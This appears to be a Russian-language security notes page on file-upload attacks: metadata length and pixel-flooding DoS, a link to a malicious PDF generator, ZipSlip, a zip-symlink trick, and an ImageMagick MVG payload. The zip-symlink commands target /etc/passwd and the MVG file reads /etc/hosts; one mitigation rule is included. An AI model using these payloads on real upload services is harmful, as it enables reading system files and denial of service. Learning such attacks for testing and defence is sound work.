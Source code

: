 # Some Attacks

## Video-files

Есть истории с манипуляциями длины ролика: в метаданных указываем длину ролика длиннее, чем на самом деле. В некоторых случаях, наивная оценка длины ролика при его преобразовании может сыграть злую шутку: ролик после конвертации может оказаться значительно больше, чем он есть на самом деле.

## Pixel Flooding

Подобна предыдущей атаке. Мы заливаем приложение, которое размером 200x200 пикселей, но в метаданных указано как 0xfafa x 0xfafa (64250 x 64250) пикселей. Когда сайт попытается конвертнуть такое изображение, мы получим application level DoS.

## Malicious PDF Generator

Генерим pdf с нашим url: [https://github.com/jonaslejon/malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

## Загрузка больших файлов -> DoS

Приложение ограничивает максимальный размер загружаемого файла на стороне клиента, что позволяет загружать файлы большего размера, чем это запланировано разработчиками. Кроме того, приложение не ограничивает количество загружаемых файлов, что позволяет злоумышленнику загрузить большое количество произвольных файлов и вызвать отказ в обслуживании путем исчерпания дисковых квот.

## ZipSlip

Суть атаки: в zip запаковываются файлы с относительными путями. При распаковке они перетирают существующие файлы в системе.

## Zip with symlink

```
ln -s /etc/passwd test
zip -y test.zip test
-y -> отвечает за сохранение симлинков как есть
Кладем на систему целвую, потом оттуда забираем (если он там распаковывается и запаковывается)
Сохраняем, разархивируеем —> получаем файлы с целевой системы :)
```

## Есть какая-та тема с загрузкой cgi-скриптов на Apache сервер&#x20;

Они исполнятся в любом случае? (например, если приложение на Ruby, а загрузили php, или cgi)

А на Nginx?

## ImageMagick MVG

test.mvg:

```
push graphic-context 
  viewbox 0 0 800 600
  push graphic-context
    push graphic-context
      font-size 11
      fill 'white'
      stroke-width 1
      image over 1,1 800,600 'label:@/etc/hosts'
    pop graphic-context
  pop graphic-context
pop graphic-context
```

Convert:&#x20;

```
$ brew install magick
$ magick mvg:test.mvg test.png
```

Mitigation:

Запретить обработку MVG файлов: /etc/ImageMagick/policy.yml

```markup
 <policy domain="coder" rights="none" pattern="MVG" /> 
```
